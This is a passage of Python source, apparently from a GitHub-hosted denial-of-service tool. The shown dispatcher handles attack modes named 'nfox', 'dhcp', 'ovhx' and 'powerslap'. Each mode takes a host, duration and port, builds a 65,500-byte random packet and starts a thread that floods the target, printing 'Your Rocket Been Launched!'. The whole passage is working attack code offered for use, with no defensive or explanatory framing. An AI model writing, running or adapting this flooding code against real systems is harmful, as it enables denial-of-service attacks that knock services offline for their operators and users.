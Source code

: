 				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "nfox":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "dhcp":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "ovhx":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "powerslap":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
